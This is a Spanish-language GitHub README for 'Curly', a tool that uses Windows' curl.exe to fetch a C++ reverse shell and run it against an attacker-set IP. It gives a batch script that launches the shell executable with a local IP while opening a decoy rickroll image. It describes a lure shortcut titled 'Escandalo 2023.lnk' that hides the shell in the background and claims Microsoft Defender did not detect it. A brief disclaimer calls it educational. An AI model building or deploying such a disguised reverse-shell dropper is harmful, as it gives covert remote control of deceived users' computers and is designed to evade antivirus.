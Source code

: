 ## Curly

Herramienta que descarga una revershell escrita en c++ usando la herramienta curl.exe incorporada en versiones modernas de Windows y la ejecuta contra la IP definida

### Modo de empleo

Configura tu IP local dentro del archivo _starter.bat_

```
@echo off
start "" .\curly_args.exe 192.168.0.72
start "" ".\rickroll.jpg"
```

El punto de entrada del programa es _Escandalo 2023.lnk_ que abre una foto (rickroll.jpg) y la reverse shell en segundo plano

### Deteccion de antivirus

A la fecha 07/06/23 corriendo la ultima version de Microsoft Defender no lo detecta como archivo malicioso

##### Disclaimer

Esto se realizo con fines educativos y practicos, cualquier uso indebido es responsabilidad del usuario
